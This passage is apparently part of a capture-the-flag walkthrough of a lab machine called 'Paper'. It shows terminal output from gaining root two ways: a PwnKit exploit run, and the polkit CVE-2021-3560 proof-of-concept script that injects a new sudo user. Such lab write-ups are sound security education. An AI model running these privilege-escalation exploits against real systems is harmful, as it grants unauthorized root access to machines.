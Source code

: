 Running the exploit we get dropped into a root shell.

```js
[dwight@paper PwnKit-Exploit]$ ./exploit
Current User before execute exploit
hacker@victim$whoami: dwight
Exploit written by @luijait (0x6c75696a616974)
[+] Enjoy your root if exploit was completed succesfully
[root@paper PwnKit-Exploit]# wc -c /root/root.txt
33 /root/root.txt
```

## Polkit

The actually intended solution to obtain root on the machine was to abuse polkit. Checking for the installed version we can see that it is vulnerable to [CVE-2021-3560](https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/).

```js
[dwight@paper ~]$ rpm -qa | grep -i polkit
polkit-0.115-6.el8.x86_64
polkit-pkla-compat-0.1-12.el8.x86_64
polkit-libs-0.115-6.el8.x86_64
```

Using the [authors poc script](https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation) we are able to create a new user with sudo rights and add the root flag to our collection. Note that this exploit is because of its time based nature not completely stable and might need rerunning until it works.

```php
[dwight@paper tmp]$ ./poc.sh -u=sm1l3z -p=sm1l3z

[!] Username set as : sm1l3z
[!] No Custom Timing specified.
[!] Timing will be detected Automatically
[!] Force flag not set.
[!] Vulnerability checking is ENABLED!
[!] Starting Vulnerability Checks...
[!] Checking distribution...
[!] Detected Linux distribution as "centos"
[!] Checking if Accountsservice and Gnome-Control-Center is installed
[+] Accounts service and Gnome-Control-Center Installation Found!!
[!] Checking if polkit version is vulnerable
[+] Polkit version appears to be vulnerable!!
[!] Starting exploit...
[!] Inserting Username sm1l3z...
Error org.freedesktop.Accounts.Error.PermissionDenied: Authentication is required
[+] Inserted Username sm1l3z  with UID 1006!
[!] Inserting password hash...
[!] It looks like the password insertion was succesful!
[!] Try to login as the injected user using sudo - sm1l3z
[!] When prompted for password, enter your password
[!] If the username is inserted, but the login fails; try running the exploit again.
[!] If the login was succesful,simply enter 'sudo bash' and drop into a root shell!
[dwight@paper tmp]$ su - sm1l3z
Password:
[sm1l3z@paper ~]$ sudo su

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

```